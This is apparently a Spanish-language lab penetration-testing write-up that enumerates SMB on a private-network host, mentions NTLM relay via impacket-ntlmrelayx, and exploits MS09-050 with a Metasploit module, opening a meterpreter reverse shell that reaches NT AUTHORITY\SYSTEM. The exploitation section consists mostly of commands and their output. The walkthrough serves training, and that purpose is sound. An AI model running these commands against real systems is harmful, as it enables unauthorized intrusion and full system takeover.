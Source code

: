 Se realiza una comprobación para ver si el sistema acepta 
``` bash
rpcclient -U '' -N $IP
```
*SE PERMITE COMUNICACIÓN PERO SIN PERMISOS DE EJECUCIÓN ->  SIN RESULTADOS*

#### PUERTO 139,445 SERVICIOS SMB Y REMOTE MANAGEMENT

Para esta combinación se ejecutan los siguientes comandos para encontrar alguna pista:
``` bash
enum4linux $IP  
  
smbclient -N -L \\\\$IP\\
```
*SIN RESULTADOS*

**NOTA**:
‘Message signing enabled but not required’. I have not seen anyone really mention this, but be aware that this indicates it is possible to REFLECT credentials from a verified source (like another computer in the AD Network) to gain access. I have use this with impacket-ntlmrelayx to escalate my privileges.

---

## Explotación
- Descripción de la vulnerabilidad explotada: MS09-050
- Exploit utilizado: revershell de meterpreter

**Detección**:
``` bash
nmap -script=smb-vuln\* -p445 192.168.103.40  
```

**Explotación:**
``` bash
msfconsole
search MS09-050
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.103.40
set LHOST 192.168.49.103
show options
run
```
En el lado de la máquina atacante no será necesario poner en escucha ningún puerto manualmente, se encarga metasploit
``` bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Se podrá obtener una shell:
``` bash
**meterpreter > shell
Process 3484 created.
Channel 1 created.
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>hostname
hostname
internal**
```
---
## Lecciones aprendidas